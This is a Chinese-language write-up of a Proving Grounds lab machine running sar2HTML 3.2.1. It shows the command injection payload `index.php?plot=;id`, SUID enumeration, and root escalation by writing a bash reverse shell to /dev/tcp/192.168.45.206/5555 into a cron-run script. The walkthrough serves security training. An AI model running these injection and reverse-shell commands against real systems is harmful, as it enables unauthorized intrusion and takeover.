 本系列為 Proving Grounds Play Free 靶機

Port Scan 後發現 含有80 Port

進入系統後發現 含有一個預設頁面

![](../static/img/2024-06-03/Untitled.png)

查看 robots.txt 發現有個 `sar2HTML`

![](../static/img/2024-06-03/Untitled%201.png)

## 讀取 sar2HTML頁面

![](../static/img/2024-06-03/Untitled%202.png)

左上角有 sar2HTML 版本字樣 丟google 就有Exploit 可參考

sar2HTML V3.2.1  含有 Command Injection 漏洞

payload為 `index.php?plot=;id`

![](../static/img/2024-06-03/Untitled%203.png)

發現可 Command Injection 直接 revshell

![](../static/img/2024-06-03/Untitled%204.png)

接著 cat local.txt

![](../static/img/2024-06-03/Untitled%205.png)

## 提權

提權部分卡了許久

查看 uname -a 無發現可利用 Exploit

![](../static/img/2024-06-03/Untitled%206.png)

使用 `find / -perm -4000`

`find / -perm -04000 -type f -ls`

發現 /bin/ping 有超級使用者

但無 gcc 功能

![](../static/img/2024-06-03/Untitled%207.png)

最後去看 Write up  發現使用 `Linpeas.sh` 去執行

會出現 `/var/www/finally.sh` 權限為root, 使用 crontab 每五分鐘執行一次

![](../static/img/2024-06-03/Untitled%208.png)

查看 `finally.sh` 發現內容為執行 `write.sh`

`write.sh` 擁有者為 www-data 可進行編輯

輸入反連指令 改寫並覆蓋內容

`echo '**bash** -i >& /dev/tcp/**192.168.45.206**/**5555** 0>&1' > write.sh`

開啟 nc 等待五分鐘後  取得 root 權限 讀取`proof.txt`

![](../static/img/2024-06-03/Untitled%209.png)